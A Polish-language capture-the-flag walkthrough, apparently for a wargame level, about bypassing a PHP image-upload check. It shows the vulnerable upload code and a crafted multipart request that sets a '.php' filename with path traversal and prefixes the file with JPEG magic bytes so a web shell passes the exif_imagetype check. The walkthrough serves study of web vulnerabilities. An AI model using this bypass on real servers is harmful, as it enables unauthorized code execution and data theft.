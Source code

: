 Ten poziom jest identyczny jak poprzedni, z tym, że teraz sprawdzane jest rozszerzenie pliku podczas jego wrzucania.

Kod źródłowy:
```php
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

W podanym kodzie funkcja "exif_imagetype()" sprawdza czy wrzucony plik to obraz poprzez odczytanie pierwszych bajtów danych obrazu i sprawdzenie w nich sygnatury pliku. To rozwiązanie mimo wszystko pozwala na dodanie pliku z rozszerzeniem php na serwer poprzez modyfikację nazwy pliku w żądaniu POST.

Żądanie ze zmienionym rozszerzeniem i content-type:
```http
-----------------------------10124944942878058390744169992
Content-Disposition: form-data; name="MAX_FILE_SIZE"
1000
-----------------------------10124944942878058390744169992
Content-Disposition: form-data; name="filename"
../../../ehwbb9v8dk.php
-----------------------------10124944942878058390744169992
Content-Disposition: form-data; name="uploadedfile"; filename="Untitled.php"
Content-Type: text/plain
ÿØÿàJFIF
```

Wynik na stronie:
![](Attachments/{4B3515EB-44D0-4D90-9E6E-34BB2A199EB7}.png)

Sygnaturą pliku jpeg jest: "ÿØÿà␀␐JFIF␀␁", w hex: "FF D8 FF E0 00 10 4A 46 49 46 00 01". 

Modyfikując żądanie tak, żeby w danych pliku na początku znajdowała się sygnatura pliku a następnie kod php można oszukać mechanizm sprawdzania plików i ponownie wykorzystać powłokę w celu dostania się do hasła.
![](Attachments/{E22931DA-89A3-4189-8C30-893D89868F20}.png)

![](Attachments/{8AEB9379-60F4-4169-A4CB-224F26ACB03F}.png)
![](Attachments/{0949E3B0-CF98-4870-87AA-EA474F495512}.png)